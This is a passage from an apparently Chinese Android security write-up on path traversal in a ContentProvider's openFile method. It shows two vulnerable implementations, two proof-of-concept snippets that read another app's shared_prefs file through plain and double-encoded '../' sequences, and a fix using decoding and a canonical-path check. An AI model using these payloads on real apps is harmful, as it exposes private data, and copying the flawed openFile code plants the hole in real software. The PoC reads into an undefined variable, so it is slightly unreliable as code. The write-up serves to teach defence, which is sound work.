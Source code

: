 Override openFile method

错误写法1：

		private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
		public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
		    throws FileNotFoundException {
		  File file = new File(IMAGE_DIRECTORY, paramUri.getLastPathSegment());
		  return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
		}

错误写法2：URI.parse()

		private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
		  public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
		      throws FileNotFoundException {
		    File file = new File(IMAGE_DIRECTORY, Uri.parse(paramUri.getLastPathSegment()).getLastPathSegment());
		    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
		  }

POC1：

	String target = "content://com.example.android.sdk.imageprovider/data/" + "..%2F..%2F..%2Fdata%2Fdata%2Fcom.example.android.app%2Fshared_prefs%2FExample.xml";
 
	ContentResolver cr = this.getContentResolver();
	FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));
 
	byte[] buff = new byte[fis.available()];
	in.read(buff);

POC2：double encode

	String target = "content://com.example.android.sdk.imageprovider/data/" + "%252E%252E%252F%252E%252E%252F%252E%252E%252Fdata%252Fdata%252Fcom.example.android.app%252Fshared_prefs%252FExample.xml";
 
	ContentResolver cr = this.getContentResolver();
	FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));
 
	byte[] buff = new byte[fis.available()];
	in.read(buff);

解决方法Uri.decode()

	private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
	  public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
	      throws FileNotFoundException {
	    String decodedUriString = Uri.decode(paramUri.toString());
	    File file = new File(IMAGE_DIRECTORY, Uri.parse(decodedUriString).getLastPathSegment());
	    if (file.getCanonicalPath().indexOf(localFile.getCanonicalPath()) != 0) {
	      throw new IllegalArgumentException();
	    }
	    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
	  }

## 0x06 参考
